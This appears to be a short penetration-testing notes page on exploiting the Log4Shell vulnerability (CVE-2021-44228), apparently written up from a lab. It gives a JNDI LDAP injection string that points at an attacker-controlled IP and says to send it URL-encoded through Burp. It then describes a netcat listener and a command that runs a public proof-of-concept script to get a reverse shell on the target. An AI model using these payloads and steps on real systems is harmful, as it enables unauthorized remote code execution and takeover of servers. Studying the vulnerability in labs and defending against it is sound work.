




# 🦪 Log4Shell

Check this [article](https://www.tomitribe.com/blog/cve-2021-44228-log4shell-vulnerability/) for more info To check for Log4Shell exploit :

```
${jndi:ldap://10.8.0.178:4444/a}
```

Then url encode it and send through burp after intercepting:&#x20;

<figure><figcaption></figcaption></figure>

Listening on nc:

<figure><figcaption></figcaption></figure>

We get some weird characters back.

Then we can use a [log4j-shell](https://github.com/kozmer/log4j-shell-poc/tree/main) Download [java](https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html) and execute

```
python3 poc.py --userip 10.8.1.208 --webport 8000 --lport 9001
```

Then send the payload:&#x20;

<figure><figcaption></figcaption></figure>

Sending the url encoded payload in burpsuite.&#x20;

Now we get a shell back:

<figure><figcaption></figcaption></figure>
